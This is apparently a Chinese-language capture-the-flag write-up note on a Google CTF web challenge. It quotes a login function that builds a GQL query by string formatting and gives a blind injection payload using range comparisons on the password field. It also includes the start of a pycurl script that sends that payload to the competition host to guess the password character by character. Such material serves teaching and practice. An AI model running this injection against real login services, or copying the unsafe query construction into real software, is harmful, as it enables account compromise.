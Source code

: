 ```
In order to sync between multiple instances, there is a config page at
/sync that is only available to authorized applications that send the
appropriate X-FlagStore header.  This header is automatically added
to all HTTP requests to partner instances.

```
看到wp
[http://buer.haus/2016/05/01/google-ctf-web-11-flag-storage-service/](http://buer.haus/2016/05/01/google-ctf-web-11-flag-storage-service/)

你tm告诉我，发现这题是前面一题的源码？？？这能看得出来？？？

测试了下发现存在gql注入，但是gql没有or语句，所以开始没有想出来怎么做。

```
@classmethod
def Login(cls, username, password):
    query = "SELECT * FROM User WHERE username = '%s'" % username
    if password is not None:
        query += " AND password = '%s'" % password
```

wp的作者说花了很久去看gql的文档[https://cloud.google.com/appengine/docs/python/datastore/gqlreference](https://cloud.google.com/appengine/docs/python/datastore/gqlreference)

然后还找到了一个有趣的东西
[http://stackoverflow.com/questions/47786/google-app-engine-is-it-possible-to-do-a-gql-like-query](http://stackoverflow.com/questions/47786/google-app-engine-is-it-possible-to-do-a-gql-like-query)

得到一个盲注的可能
```
username=manager’ AND password >=’A’ AND password < ‘Z
```
如果发这样的请求，得到`“Invalid password.” (error 1)`
测试到‘D’的时候发现报错变了
```
When we hit “D” we land on a different error: “Invalid username/password.” (error 2)
```
有个脚本
```
import random
import string
import pycurl
from io import BytesIO
import base64
import threading

def login(char):
    global password
    buffer = BytesIO()
    host_url = 'https://next-bitter-flag.ctfcompetition.com/login'
    c = pycurl.Curl()
    c.setopt(c.URL, host_url)
    c.setopt(pycurl.FOLLOWLOCATION, 1)
    c.setopt(pycurl.SSL_VERIFYPEER, 0);
    c.setopt(pycurl.COOKIEJAR, 'cookie.txt')
    c.setopt(pycurl.COOKIEFILE, 'cookie.txt')
    c.setopt(pycurl.POST, 1)
    c.setopt(pycurl.POSTFIELDS, "username=manager' AND password >='"+password+""+char+"' AND password < 'z")
    c.setopt(c.WRITEDATA, buffer)
    c.perform()
    c.close()
    body = buffer.getvalue()
    return body

password = "C"
```
